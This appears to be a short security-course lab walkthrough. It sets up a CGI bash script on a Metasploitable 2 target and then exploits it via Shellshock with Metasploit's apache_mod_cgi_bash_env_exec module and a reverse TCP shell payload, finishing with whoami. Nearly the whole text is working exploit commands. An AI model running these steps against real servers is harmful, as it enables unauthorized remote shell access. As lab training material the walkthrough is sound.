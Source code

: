 # Hacking I (unprivileged permissions) 

## Todo 1: Prepare the target (metasploitable 2) 

```
# metasploitable 2 should be up and running 

# Step 1:

cd /usr/lib/cgi-bin
vi hello.sh
# --> content (#! /bin/bash will be the first line 

#! /bin/bash
echo "Content-type: text/html"
echo ""
echo "Hello world!"

# Step 2 (permissions)
chmod 755 hello.sh 

# Step 3 (test in browser of machine that can reach you metasploitable2 machine
http://192.168.10.x/cgi-bin/hello.sh 
```

## Todo 2: Proceed on kali 

```
# Connect through ssh or use desktop -> terminal as root
msfconsole 
msf>search shellshock 
msf>use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf.....>options

# We need to set the path and the ip of the target (metaploitable 2) here.
msf.....>set rhost 192.168.10.198
msf.....>set targeturi /cgi-bin/hello.sh
targeturi => /cgi-bin/hello.sh

# Now we need to decide for a payload 
msf.....>show payloads 
msf.....>set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp

# let again check the options 
msf.....>options 

# now let's try if it would work 
msf....>check 

# now let's exploit
msf....>exploit

# Try to get some info now 
whoami 
```

## Ref: (normal privileges)

  * https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Ref: (root privileges)

  * https://samsclass.info/124/proj14/p18xLPE.htm
  

